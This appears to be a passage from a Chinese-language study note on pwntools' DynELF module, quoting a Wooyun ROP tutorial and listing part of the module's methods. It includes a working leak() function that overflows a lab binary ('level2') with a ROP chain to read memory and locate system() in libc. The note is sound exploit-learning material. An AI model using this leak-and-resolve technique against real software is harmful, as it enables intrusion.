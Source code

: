 ```python

# Alternately, we can resolve symbols inside another library,
# given a pointer into it.
d = DynELF(leak, libc + 0x1234)
assert d.lookup('system')      == system
```

作者简单说了下原理，但是并没有看懂...而且例子也是让我看的好绕(毕竟不是实例状况下...)

Wooyun的@蒸米在drops上的"一步一步学ROP之linux\_x64篇"中进行了关于DynELF的讲解，原文如下：

> 但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。
>
> 这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。
>
> 随后将这个函数作为参数再调用d = DynELF(leak, elf=ELF('./level2'))就可以对DynELF模块进行初始化了。然后可以通过调用system\_addr = d.lookup('system', 'libc')来得到libc.so中system()在内存中的地址。

之后给出了对应教程中的leak函数例子：

```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)
```

再结合doc中的示例，基本上简单易懂了。总计下简单的方法：

1. 构造一个可循环的ROP的链，该链可以leak任意内存地址的数值。
2. 将该链封装为一个函数，实现`传入任意地址 -> leak该地址数值`
3. 将该函数作为DynELF的参数之一，再加上doc中提到的任一指针，完成DynELF的初始化
4. DynELF初始化后返回一个对象。执行该对象的`lookup`方法即可完成目标函数的查找

这里附上doc的全部对象方法：

* bases()

    Resolve base addresses of all loaded libraries.

    Return a dictionary mapping library path to its base address.

* dynamic
    
    Returns: Pointer to the .DYNAMIC area.

* elfclass

    32 or 64

* static find\_base(leak, ptr)
